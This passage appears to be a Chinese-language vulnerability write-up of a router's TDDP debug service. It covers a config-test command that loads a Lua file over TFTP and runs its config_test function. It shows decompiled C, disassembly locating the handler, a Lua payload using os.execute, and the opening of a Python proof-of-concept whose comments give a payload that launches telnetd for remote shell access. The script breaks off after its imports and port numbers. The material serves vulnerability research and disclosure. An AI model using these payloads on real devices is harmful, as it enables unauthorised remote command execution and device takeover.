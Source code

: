 ```c
            luaerr = lua_pcall(lua_State,0,0xffffffff,0);
          }
          lua_getfield(lua_State,0xffffd8ee,"config_test",luaerr);
            //调用lua中的config_test方法   造成 任意代码执行。
          lua_pushstring(lua_State,configFile);
          lua_pushstring(lua_State,remote_address);
          lua_call(lua_State,2,1);
        }
        lua_close(lua_State);
      }
    }
  }
}
```

故payload 可以构造如下

```
function config_test(config)
  os.execute("echo poc test")
end
```





同时向写上回溯可以 通过对tddp 固件进行定位发现协议问题点：

```
通过上层recveform 函数调用进行数据获取，进行监听处理，对第二个字节处理。

loc_16230               ; jumptable 00015ED8 case 45
MOV             R3, #aSDTddpv1Receiv_5 《- TDDPv1:receiveCMD_FTEST_CONFIG" 0x31标签
MOV             R0, R3  ; format
MOV             R1, #0x195F8
MOV             R2, #0x2B4
BL              printf
LDR             R0, [R11,#var_20]
BL              sub_A580            《-该函数为 ftest_config 函数
STR             R0, [R11,#var_8]
B               loc_163C0
```



POC如下：

```python
#!/usr/bin/python3

# Copyright 2019 Google LLC.
# SPDX-License-Identifier: Apache-2.0

# Create a file in your tftp directory with the following contents:
#
#function config_test(config)
#  os.execute("telnetd -l /bin/login.sh")
#end
#
# Execute script as poc.py remoteaddr filename

import sys
import binascii
import socket

port_send = 1040
port_receive = 61000

```